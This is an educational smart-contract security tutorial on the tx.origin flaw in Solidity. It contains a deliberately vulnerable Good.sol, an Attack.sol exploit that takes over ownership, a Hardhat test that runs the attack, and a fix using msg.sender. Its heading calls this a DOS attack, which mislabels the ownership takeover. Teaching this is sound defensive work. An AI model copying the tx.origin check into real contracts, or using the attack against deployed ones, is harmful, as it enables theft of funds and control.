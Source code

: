 # Attack with tx.origin

tx.origin is a global variable which returns the address that sent the transaction, we will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts

Lets goo 🚀


## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account (which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.

So for example, if User calls Contract A, which then calls contract B within the same transaction, `msg.sender` will be equal to `Contract A` when checked from inside `Contract B`. However, `tx.origin` will be the `User` regardless of where you check it from.


## DOS Attack on a smart contract

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.


### Build

Lets build an example where you can experience how the the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- If you are not on mac, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

First, let's create a contract named `Good.sol` which is essentially a simpler version of `Ownable.sol` that we have previously used.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;


contract Good  {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
```

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    let tx = await _attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

The attack will happen as follows, initially `addr1` will deploy `Good.sol` and will be the owner but the attacker will somehow fool the user who has the private key of `addr1` to call the `attack` function with `Attack.sol`. 

When the user calls `attack` function with `addr1`,  `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol` 

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the owner of `Good.sol` is now `Attack.sol`

## Real Life Example
While this may seem obvious to most of you, as `tx.origin` isn't something you see being used at all, some developers do make this mistake. You can read about the [THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/) where users lost millions in $RUNE due to an attacker being able to get approvals on $RUNE token by sending a fake token to user's wallets, and approving that token for sale on Uniswap would transfer $RUNE from the user's wallet to the attacker's wallet because THORChain used `tx.origin` for transfer checks instead of `msg.sender`.

## Prevention

- You should use `msg.sender` instead of `tx.origin` to not let this happen

Example:

```solidity

function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}

```

Hope you liked this level ❤️, keep building.

WAGMI 🚀


## References
- [Solidity by example](https://solidity-by-example.org/)
